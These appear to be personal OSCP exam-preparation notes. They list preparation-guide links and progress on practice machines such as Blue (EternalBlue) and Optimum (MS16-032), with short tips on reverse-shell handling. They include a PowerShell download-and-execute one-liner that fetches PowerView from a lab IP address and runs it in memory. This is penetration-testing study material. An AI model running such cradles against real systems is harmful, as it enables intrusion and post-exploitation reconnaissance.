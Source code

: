 https://hummus-ful.github.io/oscp/2021/01/26/OSCP_List.html

Need to do hack the box boxes

https://www.netsecfocus.com/oscp/2021/05/06/The_Journey_to_Try_Harder-_TJnull-s_Preparation_Guide_for_PEN-200_PWK_OSCP_2.0.html#section-9-web-application-attacks

![](20230206124505.png)  

![](2023-02-16-02-04-45.png)

Bashed - not done 
Bastard - not done drupal
Beep - issue with the ssh
Blue - not eodne eternal blue somtime up
dc-9 - not done vulnhub setup ?
Devel - not done ftp
shocker - done
Optimum- not done ms16-32
squashed - not done
Granny - done

Escape - todo

rlwrap a better way to get nc shell

maleficient tokens

hackthebox enterprise

powershell IEX(New-Object Net.Webclient).downloadstring('http://10.17.36.41:8000/powerview.ps1')

curl http://10.10. -O powerview.ps1
import powerview


